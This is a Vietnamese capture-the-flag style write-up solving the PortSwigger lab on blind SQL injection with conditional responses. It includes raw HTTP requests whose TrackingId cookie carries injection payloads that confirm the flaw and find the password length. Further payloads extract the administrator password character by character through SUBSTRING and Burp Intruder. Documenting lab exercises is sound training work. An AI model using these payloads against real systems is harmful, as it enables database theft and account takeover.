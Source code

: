 # [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Lỗ hổng: Blind SQLi. Phản hồi sẽ khác nhau khi câu lệnh SQL có phản hồi.

1. 
```http
GET / HTTP/1.1
Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
Cookie: TrackingId=gp2SbVXwwSsrKYXK; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
```
=> Có welcome ở response
2. 
```http
GET / HTTP/1.1
Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
Cookie: TrackingId=gp2SbVXwwSsrKYXK'; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
```
=> Không có welcome ở response
3. Xác định blind SQLi
```http
GET / HTTP/1.1
Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
Cookie: TrackingId=gp2SbVXwwSsrKYXK'+AND+'1'%3d'1'--; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
```
=> Có welcome ở response
```http
GET / HTTP/1.1
Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
Cookie: TrackingId=gp2SbVXwwSsrKYXK'+AND+'1'%3d'2'--; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
```
=> Không có welcome ở response
4. Thông tin ở đề bài: bảng `users`, cột `username` và `password`, tìm mật khẩu của `administrator`
5. Xác định số cột, dùng intruder với payload từ 1 đến 10: `TrackingId=gp2SbVXwwSsrKYXK'AND+'1'='1'ORDER+BY+§§--;`
- Kết quả: với payload = 1, response có chữ welcome
- ![f1151c5ee4b9cf03419555264c02cfb8.png](../../../../../../_resources/f1151c5ee4b9cf03419555264c02cfb8.png)
6. Tìm độ dài mật khẩu của admin
- Gửi request vào intruder với payload position là `TrackingId=XJqlAELi1rQJ6nVY'+AND+'1'%3d'2'UNION+SELECT+username+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)=§§--;` và payload từ 1 đến 30
- ở phản hồi của payload = 20, có chữ welcome => mật khẩu dài 20 kí tự.
7. Tìm mật khẩu: dùng hàm SUBSTRING để lấy từng kí tự trong mật khẩu ra và so sánh với tất cả kí tự có thể và quan sát phản hồi.
- Dùng intruder với attack mode là Cluster bomb
- Payload position có ở 2 chỗ:
```
GET / HTTP/1.1
Host: 0a5600bf03f79d08c0d9bee70045003c.web-security-academy.net
Cookie: TrackingId=XJqlAELi1rQJ6nVY'+AND+'1'%3d'2'UNION+SELECT+username+FROM+users+WHERE+username%3d'administrator'+AND+SUBSTRING(password,§§,1)='§§'--;
```
- Payload gồm 2 set:
	- Set 1: số từ 1->20 để truyền vào hàm SUBSTRING
	- Set 2: a->z, A->Z, 1->9, giả sử mật khẩu chỉ bao gồm các kí tự này
- Chạy attack và dùng filter để lọc ra những response có chữ `welcome`
- ![c57481170c53a40c4c62158936fee519.png](../../../../../../_resources/c57481170c53a40c4c62158936fee519.png)
- Ghép lần lượt các payload 2 theo thứ tự tăng dần của payload 1 => mật khẩu của admin
8. Đăng nhập tài khoản admin => Lab Solved